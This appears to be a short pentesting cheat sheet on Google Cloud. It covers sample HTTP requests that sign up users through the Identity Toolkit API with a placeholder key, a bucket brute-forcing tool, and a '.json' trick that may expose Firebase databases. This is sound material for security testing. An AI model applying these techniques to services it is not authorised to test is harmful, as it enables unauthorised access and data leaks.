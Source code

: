 +++
title = 'Google GCP'
+++

## Google Identity

Applications can use google identity to manage login, check all endpoints to see if admin only endpoint are public

Hint: deleteAccount and signUp may be gold

Documentation: https://developers.google.com/resources/api-libraries/documentation/identitytoolkit/v3/python/latest/identitytoolkit_v3.relyingparty.html

- [Misconfigs in Google Identity](https://blog.appsecco.com/exploiting-weak-configurations-in-google-identity-platform-cbddbd0e71e3)

```
POST /identitytoolkit/v3/relyingparty/signupNewUser?key=GOOGLEKEY HTTP/2
Host: www.googleapis.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Client-Version: Firefox/JsCore/8.10.1/FirebaseCore-web
X-Firebase-Locale: pt
Content-Length: 81

{"returnSecureToken":true,"email":"asassa@asas.com","password":"asassa@asas.com"}
```

```
GET /v1/projects?key=GOOGLEKEY HTTP/2
Host: identitytoolkit.googleapis.com
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Microsoft Edge";v="108"
Content-Type: application/json
X-Client-Version: Chrome/JsCore/9.13.0/FirebaseCore-web
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36 Edg/108.0.1462.46
X-Firebase-Locale: en
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
```


## Google Storage

Check what permissions the bucket has:

https://github.com/RhinoSecurityLabs/GCPBucketBrute

If the site ends in `appspot.com`, bucket can be accessed in:

```https://storage.googleapis.com/<site_url>``` 

- [Hunting GCP Buckets](https://hackingthe.cloud/gcp/general-knowledge/gcp-buckets/)

## Firebase

- [Pyrebase](https://github.com/thisbejim/Pyrebase)

Add a `.json` to the end of a firebaseio url, it may leak the database.

